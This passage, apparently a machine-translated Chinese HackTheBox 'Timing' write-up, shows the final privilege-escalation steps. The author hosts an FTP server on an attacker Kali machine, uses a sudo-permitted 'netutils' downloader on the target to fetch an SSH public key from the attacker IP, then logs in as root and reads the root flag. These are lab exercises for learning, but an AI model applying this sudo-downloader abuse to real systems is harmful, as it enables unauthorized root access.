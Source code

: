 ```
┌──(root💀kali)-[~/htb/timing]
└─# python3 -m pyftpdlib -p 21
[我 2021-12-29 22:15:26] 并发模型：异步
[I 2021-12-29 22:15:26] 伪装（NAT）地址：无
[I 2021-12-29 22:15:26] 被动端口：无
[I 2021-12-29 22:15:26] >>> 在 0.0.0.0:21 启动 FTP 服务器，pid=1597 <<<

```

切换回该框并再次运行 netutils 应用程序，这次为 FTP 选择 0 并输入我们的 Kali IP 和我们在那里托管的 SSH 公钥：

```
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
选择一个选项：
[0] FTP
[1] HTTP
[2] 退出
输入 >> 0
输入网址+文件：10.10.14.12/id_rsa.pub

```

现在回到 Kali 并检查文件是否被请求：

![](https://miro.medium.com/max/1400/1*RU6AfT34n48qT3qUp0A68A.png)

Kali 上运行的 FTP 服务器

是的，所以启动一个新终端并以 root 身份登录到该框：

```
┌──(root💀kali)-[~/htb/timing]
└─# ssh root@timing.htb  
欢迎使用 Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-147-generic x86_64)
最后登录时间：2021 年 12 月 7 日星期二 12:08:29
root@timing:~#

```

拿起旗帜，我们就完成了：

```
root@timing:~# cat /root/root.txt
<隐藏>

```

这是另一个盒子完成的。我真的很喜欢这个，因为它需要一些思考才能完成。下次见。